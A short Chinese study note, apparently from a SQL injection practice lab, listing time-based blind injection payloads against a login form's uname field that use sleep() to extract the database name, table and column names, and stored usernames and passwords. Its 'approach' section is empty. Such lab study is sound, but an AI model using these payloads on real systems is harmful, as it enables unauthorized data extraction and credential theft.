

# 知识点：
基于'的闭合<br />无回显<br />时间注入<br />爆库，表，列名，值的参考payload
```sql
uname=admin' and if(length(database())=8,sleep(5),1)--+&passwd=admin&submit=Submit
uname=admin' and if(left(database(),1)='s',sleep(5),1)--+&passwd=admin&submit=Submit
 
uname=admin' and if( left((select table_name from information_schema.tables where table_schema=database() limit 1,1),1)='r' ,sleep(5),1)--+&passwd=admin&submit=Submit
uname=admin' and if(left((select column_name from information_schema.columns where table_name='users' limit 4,1),8)='password' ,sleep(5),1)--+&passwd=admin&submit=Submit
 
uname=admin' and if(left((select password from users order by id limit 0,1),4)='dumb' ,sleep(5),1)--+&passwd=admin&submit=Submit
uname=admin' and if(left((select username from users order by id limit 0,1),4)='dumb' ,sleep(5),1)--+&passwd=admin&submit=Submit
```
# 思路：

